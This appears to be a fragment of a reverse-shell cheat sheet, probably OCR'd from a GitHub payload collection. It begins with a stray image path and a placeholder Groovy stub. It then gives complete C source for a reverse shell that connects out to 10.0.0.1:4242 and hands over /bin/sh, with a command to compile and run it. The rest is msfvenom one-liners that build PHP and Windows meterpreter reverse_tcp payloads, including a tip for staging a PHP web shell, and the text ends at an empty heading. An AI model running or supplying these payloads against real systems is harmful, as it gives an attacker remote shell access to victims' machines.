 Thread.start {
    // Reverse shell here
}




### C

> Compile with gcc /tmp/shell.c --output csh && csh

#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}





### Meterpreter Shell



- Web shells tcp
      
       msfvenom -p php/meterpreter/reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f raw > shell.txt
     
          we use the txt extension because sometimes server  executes the php on our machien

- Windows Staged reverse TCP

        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe



- Windows Stageless reverse TCP
